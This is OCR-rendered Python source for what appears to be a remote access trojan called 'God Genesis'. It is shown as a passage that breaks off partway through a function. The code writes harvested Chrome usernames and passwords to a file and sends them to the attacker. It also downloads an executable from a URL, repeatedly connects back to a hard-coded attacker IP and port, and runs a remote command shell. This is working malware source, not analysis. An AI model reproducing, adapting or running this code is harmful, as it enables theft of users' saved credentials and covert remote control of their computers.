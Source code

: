             f.write(f"Origin URL: {origin_url}")
            f.write(f"Action URL: {action_url}")
            f.write(f"Username: {username}")
            f.write(f"Password: {password}")
        else:
            continue
        if date_created != 86400000000 and date_created:
            f.write(f"Creation date: {str(chrome_get_chrome_datetime(date_created))}")
        if date_last_used != 86400000000 and date_last_used:
            f.write(f"Last Used: {str(chrome_get_chrome_datetime(date_last_used))}")
        f.write("="*50)
    cursor.close()
    db.close()
    f.close()
    try:
        os.remove(filename)
    except:
        pass
    fn = open(fileloc,"r")
    reliable_send(fn.read())
    

#end of chrome extraction





def downloadurl(url):
    jod_url = requests.get(url)
    file_name = "God Genesis.exe"
    with open (file_name, 'wb') as output_file:
        output_file.write(jod_url.content)


def connection():
    while True:
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.39.129", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

def shell():
    while True:
        command = reliable_recv()
        if command == 'terminate':
            connection_to_attacker.close()
            break
        elif command == 'clear':
            pass
        elif command[:3] == 'cd ':
            try:
                os.chdir(command[3:])
                file = os.getcwd()
                files = str(file)
                reliable_send(files)
            except:
                pass
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                reliable_send(files)
            except: